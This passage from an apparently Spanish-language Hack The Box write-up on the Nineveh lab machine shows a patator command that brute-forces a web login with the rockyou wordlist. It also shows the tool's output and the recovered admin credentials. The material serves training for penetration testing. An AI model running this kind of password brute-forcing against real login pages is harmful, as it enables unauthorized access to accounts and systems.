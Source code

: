 ```bash
❯ ./patator.py http_fuzz url="http://nineveh.htb/department/login.php" method=POST body='username=admin&password=FILE0' 0=/usr/share/wordlists/rockyou.txt -x ignore:fgrep="Invalid Password\!"
21:52:36 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.2 at 2021-11-27 21:52 CST
21:52:36 patator    INFO -                                                                              
21:52:36 patator    INFO - code size:clen       time | candidate                          |   num | mesg
21:52:36 patator    INFO - -----------------------------------------------------------------------------
21:53:40 patator    INFO - 302  2049:1706      0.137 | 1q2w3e4r5t                         |  4553 | HTTP/1.1 302 Found
^C21:53:45 patator    INFO - Hits/Done/Skip/Fail/Size: 1/4910/0/0/14344392, Avg: 71 r/s, Time: 0h 1m 8s
21:53:45 patator    INFO - To resume execution, pass --resume 491,491,491,491,491,491,491,491,491,491
```

Ya tenemos las credenciales del segundo panel del login `admin : 1q2w3e4r5t`; asi que vamos a guardarlas y luego utilizarlas para ver el contenido web.

![](/assets/images/htb-nineveh/nineveh-web9.png)
